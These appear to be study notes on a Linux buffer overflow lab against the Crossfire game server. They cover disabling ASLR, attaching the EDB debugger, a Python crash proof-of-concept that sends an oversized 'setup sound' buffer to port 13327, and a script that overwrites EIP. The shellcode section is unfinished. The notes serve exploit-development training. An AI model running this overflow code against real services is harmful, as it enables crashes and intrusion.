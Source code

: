 ### DISABLE ASLR on Kali for testing

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

### Setting up the EDB debugger
First thing, it runs with the following command:
```bash
root@debian:~# edb --run binary
```

# Note: Remember to run EDB from the same folder of your binary

The layout of EDB is similar to other popular debugging tools, as shown below:

![Figure 1: EDB interface](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/linux_buffer_overflows/IVUfZNLJ-1E-linux_buffer_overflows_01.png)

To see available processes including the PID and owner, we will select _Attach_ from the _File_ menu. We can then use the filter option to search for a specific process, which in our case is _crossfire_, select it, and click _OK_ to attach to it:

![Figure 2: EDB - Attachable processes window](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/linux_buffer_overflows/lUl7AsMPwdk-linux_buffer_overflows_02.png)

When we initially attach to the process, it will be paused. To run it, we simply click the _Run_ button. Depending on how the application works within the debugger it might hit an additional breakpoint before letting the application run. In such cases we simply have to press the _Run_ button one more time.

![Figure 3: Attaching the application in the debugger](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/linux_buffer_overflows/V3h3CUzZfSg-linux_buffer_overflows_03.png)

### Calculate Buffer

Once we have attached the debugger to the application, we will use the following proof-of-concept code that we created based on information from the public exploit:

```python 
#!/usr/bin/python
import socket

host = "10.11.0.128"

crash = "\x41" * 4379

buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

Notice that our _buffer_ variable requires specific hex values at the beginning and at the end of it, as well as the "setup sound" string, in order for the application to crash.

Our initial proof-of-concept builds a malicious buffer including the "setup sound" command, connects to the remote service on port 13327, and sends the buffer.

To crash Crossfire, we can run our first proof-of-concept using python:

```bash
kali@kali:~$ python poc_01.py 
[*]Sending evil buffer...
#
[*]Payload Sent !
```

After running the script, the debugger displays the following error message, clearly indicating the presence of a memory corruption in the _setup sound_ command, likely a buffer overflow condition:

![Figure 4: Crash indicating a buffer overflow](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/linux_buffer_overflows/8HoyucM3yhA-linux_buffer_overflows_04-2.png)

Clicking the _OK_ button, we find that the EIP register has been overwritten with our buffer.

### Control EIP

In order to create linux payloads it's better if we use python2 as such payloads can be encoded as bytes easily by using the following syntax:

```bash
#!/usr/bin/env python2
Initial ="A"*3892
payloadBytes = Initial + b"\x2b\x86\x04\x08"
#	Open in "wb" mode to write a new file, or "ab" mode to append
with open("exploit.txt", "wb") as binary_file:
# Write bytes to file 
	binary_file.write(payloadBytes)
```

As seen below, the EIP memory address is being converted as bytes with the b"" syntax.

### Locating Space for Our Shellcode

TODO

### Checking for Bad Characters

We sent the whole range of characters from 00 to FF within our buffer and then monitored whether any of those bytes got mangled, swapped, dropped, or changed in memory once they were processed by the application.